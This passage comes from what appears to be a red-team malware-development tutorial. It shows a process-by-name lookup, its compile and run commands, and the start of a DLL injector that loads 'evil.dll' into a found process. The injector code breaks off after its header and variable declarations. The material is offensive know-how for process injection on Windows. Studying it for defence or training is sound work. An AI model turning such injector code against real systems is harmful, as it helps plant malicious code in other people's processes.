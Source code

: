 if we find the process which is match by name with our `procname` return it's ID.   

As I wrote earlier, for simplicity, we just print this PID.   

Let's go to compile our code:
```bash
i686-w64-mingw32-g++ hack.cpp -o hack.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```
![compile](/assets/images/9/2021-09-30_02-11.png){:class="img-responsive"}

And now launch it in Windows machine (Windows 7 x64 in my case):
```cmd
.\hack.exe mspaint.exe
```
![run](/assets/images/9/2021-09-30_02-15.png){:class="img-responsive"}

As you can see, everything work perfectly.    

Now, if we think like a red teamer, we can write a more interesting injector, which, for example, find process by name and inject our payload to it.   

Let's go!    
Again for simplicity I'll take my injector from one of my [posts](/tutorial/2021/09/20/malware-injection-2.html) and just add the function `findMyProc`:

```cpp
/*
simple process find logic
author: @cocomelonc
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

```
